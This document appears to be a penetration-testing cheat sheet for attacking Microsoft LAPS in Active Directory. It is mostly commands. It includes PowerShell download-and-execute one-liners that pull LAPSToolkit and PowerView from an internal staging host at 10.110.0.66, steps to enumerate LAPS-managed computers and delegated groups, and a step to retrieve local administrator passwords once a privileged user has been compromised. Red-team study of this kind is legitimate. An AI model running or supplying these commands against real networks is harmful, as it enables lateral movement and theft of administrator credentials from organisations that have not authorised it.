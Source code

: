# LAPS

## Usage

### LAPSToolKit 

```csharp
iex(iwr http://10.110.0.66:8001/LAPSToolkit.ps1) 
```

### Load the module 

```csharp
. .\LAPSToolkit.ps1
or
Import-Module .\LAPSToolkit.ps1
```

### Locate computers

```csharp
Get-LAPSComputers
```

![](../../../../.gitbook/assets/image%20%28148%29.png)

### Find Delegate groups

```csharp
Find-LAPSDelegatedGroups
```

![](../../../../.gitbook/assets/image%20%28281%29.png)

### Enumerate groups

#### Load powerview

```csharp
 iex(new-object net.webclient).downloadstring('http://10.110.0.66:8000/powerview.ps1')
```

```csharp
Get-NetGroupMember -GroupName <GROUP_NAME>
```

![](../../../../.gitbook/assets/image%20%2825%29.png)

### Retrieve password

{% hint style="info" %}
Require to compromise a privilege user
{% endhint %}

```csharp
Get-LAPSComputers
```

![](../../../../.gitbook/assets/image%20%28249%29%20%281%29.png)

### Resources

{% embed url="https://github.com/leoloobeek/LAPSToolkit" %}

